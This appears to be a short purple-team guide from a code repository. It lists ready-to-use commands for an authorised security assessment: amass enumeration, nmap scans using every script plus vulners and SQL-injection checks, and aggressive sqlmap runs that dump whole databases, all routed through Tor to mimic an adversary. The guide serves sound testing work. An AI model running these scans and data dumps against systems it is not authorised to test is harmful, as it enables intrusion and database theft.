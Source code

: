 # Purple Team Process (Ver. 1.0):

This guide is for both Red Team and Blue Team, to perform an active and comprehensive scan of your entire network.

Pay attention, this is a real, non desructive attack so you must have the authorization to perform this analysis.

In amass scan, replace %target% with the domain
#### Network Analysis:
- amass enum -v -src -ip -brute -min-for-recursive 2 -d %target%

Take the result and extract IPs.
In nmap scans, replace %targets% with IPs

In sqlmap scans, replace "http://example.com" with the original URL.
Add "/*" without quotes at the end of URL.

If there is "/" at the end of URL, add only "*".

From this step, all scans will be performed through Tor network, to simulate a real Adversary.

If your network/security devices blocks the Tor network, repeat all tests without proxies options.

#### System Analysis:
- nmap -sV --host-timeout 1440m -Pn --script "*" %targets% --proxies SOCKS4://127.0.0.1:9050

#### Advanced System Analysis:
- nmap -sV --host-timeout 1440m -Pn --script vulners %targets% --proxies SOCKS4://127.0.0.1:9050

#### Transport Analysis:
- Perform a Qualys SSL Labs scan

#### Application Analysis:
- nmap -sV --host-timeout 1440m -Pn --script http-sql-injection %targets% --proxies SOCKS4://127.0.0.1:9050

#### Advanced Application Analysis:
- nmap -sV --host-timeout 1440m -Pn --script "http-*" %targets% --proxies SOCKS4://127.0.0.1:9050

#### Extreme Application Analysis (sqlmap - URLs from nmap results):
- sqlmap -u "http://example.com" --crawl=10 --level=5 --risk=3 -a --dump-all --batch --random-agent --tor

- sqlmap -u "http://example.com" --crawl=10 --level=5 --risk=3 -a --dump-all --batch --forms --random-agent --tor

Start both sqlmap scans to perform a double analysis (GET parameters + FORMS scan).
